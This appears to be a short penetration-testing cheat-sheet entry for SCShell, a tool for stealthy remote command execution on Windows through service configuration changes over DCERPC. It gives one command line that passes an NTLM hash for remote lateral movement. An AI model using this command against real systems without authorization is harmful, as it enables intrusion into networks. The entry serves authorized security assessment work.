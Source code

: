 # SCShell

% SCShell, psexec, sealthy, DCERPC

## stealty psexec
#assessment/AD #target/remote #cat/ATTACK/CONNECT 

no service created, no smb used, no file dropped
https://github.com/Mr-Un1k0d3r/SCShell

```
python3 scshell.py -service-name <service-name|defragsvc> -hashes :<ntlm-hash> <domain>/<user>@<ip>
```
